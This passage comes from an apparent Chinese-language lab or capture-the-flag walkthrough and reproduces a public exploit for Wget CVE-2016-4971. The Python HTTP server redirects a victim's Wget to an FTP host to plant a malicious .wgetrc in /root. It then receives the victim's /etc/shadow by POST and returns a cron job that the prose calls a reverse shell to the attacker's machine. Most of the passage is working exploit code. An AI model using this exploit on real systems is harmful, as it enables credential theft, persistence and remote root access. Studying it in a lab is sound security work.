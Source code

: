 上面`.wgetrc`配置文件的`post_file`配置表示，所有`wget`的请求都使用`post`方法发送，并将设置的文件作为`post`请求体发送，等同于`--post-file=`命令的作用。`output_document`配置表示输出的文件路径和名称，等同于`-O`参数。

接着编辑下面的exp.py并在靶机启动，作用就是启动一个http服务器（`10.0.3.1`），用于接收来自同网段的`10.0.3.133`的定时`wget`请求，当请求为`get`时，转发到ftp服务器（kali `10.10.14.5`）下载`.wgetrc`文件，当请求为`post`时，返回内容为反弹shell的定时任务语句

```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)
```